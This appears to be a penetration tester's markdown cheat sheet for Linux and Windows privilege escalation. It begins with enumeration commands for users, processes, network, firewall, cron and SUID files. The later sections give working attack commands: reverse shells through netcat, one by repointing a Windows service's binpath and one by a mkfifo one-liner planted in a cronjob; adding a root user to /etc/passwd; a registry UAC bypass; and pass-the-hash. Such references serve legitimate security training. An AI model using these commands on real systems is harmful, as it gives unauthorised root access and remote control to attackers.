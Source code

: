 ##### Basic Privilege Escalation Enumeration

###### Basic Privesc Enumeration for Linux
```
whoami
whoami /priv // Privileges info
---
id
---
cat /etc/passwd // Discover other users
---
hostname
---
cat /etc/issue // OS
--- 
cat /etc/*-release // OS + More info
---
uname -a // Exact Package
---
ps aux // Processes
---
ifconfig
---
ip a // ifconfig
---
/sbin/route // Network map / Could be routel depending on distro
---
ss -anp // Active network connections
```
###### Enumerating Firewalls for Linux
Need root for iptables but...
```
cat /etc/iptables // Check for this 
---
cat /etc/iptables-backup
---
cat /etc/iptables | grep 'iptables-save' // iptables-restore
```
###### Enumerating Scheduled Tasks for Linux
```
ls -lah /etc/cron* //List Tasks
---
cat /etc/crontab // Inspect Carfully 
```
###### Enumerating installed applications for Linux
```
dpkg -l | grep -i APP(ie.pam)

---
```
###### Enumerating R/W files for Linux
```
find / -writable -type d 2>/dev/null
---
```
###### Enumerating Unmounted Disks for Linux
```
mount // Show mounts
---
cat /etc/fstab // Check Mounting configs
---
/bin/lsblk  // View all available disks 
---
```
###### Enumerating Drivers and Kernal Modules for Linux
```
lsmod
---
s/sbin
---
/sbin/modinfo <module> //How to view modules
```
###### SUID for Linux
```
find / -perm -u=s -type f 2>/dev/null
```
###### Find files and groups
```
find /home -f -printf "%f\t%p\t%u\t%g\t%m\n" 2> /dev/null | colum -t
```
***
###### Basic Privesc Emumeration for Windows
```
whoami
---
net user // Discover other users
---
net user <user> // Enumerate info for selected user
---
hostname
---
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" // View System Info
---
tasklist /SVC // Processes
---
ipconfig /all
---
route print // network routing tables 
---
netstat -ano // Veiw active network connections 
a = all active TCP connection
n = ip/ports
o = PID
```
###### Enumerating Firewalls for Windows
```
netsh advfirewall show currentprofile // Current firewall profile
---
netsh advfirewall firewall show rule name=all // Firewall rules
```
###### Enumerating Scheduled Tasks for Windows
```
schtasks /query /fo LIST /v // List Tasks
```
###### Enumerating installed applications for Windows
```
wmic product get name, version, vendor // Info on installed apps
---
wmic qfe get Caption, Description, HotFixID, InstalledOn // Full Sys updates
```
###### Enumerating R/W files for Windows
```
[Download accesschk.exe onto Target]
accesschk.exe -uws "Everyone" "<Path to DIR>" // Will check for w-W files 
---
[powershell]
Get-ChildItem "<PATH TO DIR>" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
###### Enumerating Unmounted Disks for Windows
```
mountvol
```
###### Enumerating Drivers and Kernal Modules for Windows
```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start mod
e', Path // Lists display name, start mode and path
---
 Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"} //Target specific drivers
```
###### AutoElevate Binaries for Windows
```
regedit //opens Registry Editor 
---
reg query HKEY_CURRENT_USER
---
REG ADD HKCU\path\to\Shell\Open\command /v DelegateExecute /t REG_SZ
```
###### 
Insecure file permissions for Windows
```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'} // shows service/path
---

```
***
#### The Automated Stuff
###### Windows
```
windows-privesc-check2.exe // http://pentestmonkey.net/windows-privesc-check

windows-privesc-check2.exe--dump -G Dump Groups 
---
windows-privesc-check2.exe --dump -G -H // Dump Groups & Shares
---
windows-privesc-check2.exe --dump -M -V // Dump password policy & privs for users and groups
---
windows-privesc-check2.exe -A // All files and Dirs
--
windows-privesc-check2.exe --pyshell // o.O 
---
procmon.exe
---
sigcheck.exe -a -m C:\path\to\binarie
---
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"  //XP SP1 2001 
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
```
###### Linux 
```
./unix-privesc-check // http://pentestmonkey.net/tools/unix-privesc-check
---
./unix-privesc-check standard
---
./unix-privesc-check detailed 
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP><PORT> >/tmp/f" // write this to a file in a cronjob
---
```
```
Injecting a superuser into /etc/passwd
openssl passwd <newpassword> // Populate password hash
-
echo "<NEW USERNAME>:<HASH>:0:0:root:/root:/bin/bash" >> /etc/passwd // add user to passwd
- 
su <new username> // rooted ;)
```
###### Windows
```
[Examples]

whoami /groups // Look for Medium integrity level
-
net user admin NewPassword // Try set new password (Most likely will fail)
-
powershell.exe Start-Process cmd.exe -Verb runAs // Privesc
```
```
wmic service where caption="Service" get name, caption, state, startmode // Check start mode and active status
---
pth-winexe -U <user>%<lm hash>:<NTLM hash> //<Target IP> cmd /// Pass the Hash 
```
